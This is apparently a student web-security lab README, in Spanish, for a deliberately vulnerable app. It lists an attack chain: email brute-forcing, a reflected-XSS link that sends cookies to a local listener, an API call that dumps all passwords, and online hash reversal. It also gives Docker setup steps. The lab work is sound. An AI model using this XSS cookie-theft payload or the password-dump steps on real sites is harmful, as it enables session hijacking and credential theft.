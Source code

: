 # TP Seguridad Apps Web - Grupo 3

## Vector de ataque
1) Hacer fuerza bruta con Burp para obtener mails de usuarios
2) Enviar mails con link malicioso: `http://localhost:3000/html/home/user/dashboard/index.html?nombre=Juan%3Cscript%3Evar%20xhr%20=%20new%20XMLHttpRequest();xhr.open(%22POST%22,%27http://localhost:4000/damecookie%27);xhr.withCredentials%20=%20true;xhr.send()%3C/script%3E`
3) Leer las cookies e intentar entrar al sitio
4) Ver los requests que se hacen
5) Hacer GET /api/v1/User y GET /api/v1/User?distinct=password para obtener un array de usuarios y un array de sus respectivas contraseñas
6) Buscar contraseñas hasheadas en https://hashtoolkit.com/reverse-hash


## Como levantar el ambiente
1) Tener instalado docker (Si no lo tenes podes, en linux podes instalarlo con estos simples comandos)
    `curl -fsSL https://get.docker.com -o get-docker.sh`
    `sh get-docker.sh`
2) Crear la imagen de docker del servidor, se peude hacer estando en /intracorp (de este repositorio) y corriendo
      `docker build . -t tp3-seguridad-web-g3-servidorweb`
3) Crear la red virtual en docker
      `docker network create tp-seguridad-web-g3`
4) Dejar corriendo tanto el servidor como mongod
      `docker container run --network tp-seguridad-web-g3 -p 27017:27017 --name mongo mongo`
      `docker container run --network tp-seguridad-web-g3 -p 3000:3000 tp3-seguridad-web-g3-servidorweb`
5) Para dejar corriendo el robador de cookies hay que crear la imagen, estando en /cookie-listener (de este repositorio) y corriendo
      `docker build . -t tp3-seguridad-web-g3-cookie-listener`
      `docker container run --network tp-seguridad-web-g3 -p 4000:4000 tp3-seguridad-web-g3-cookie-listener`
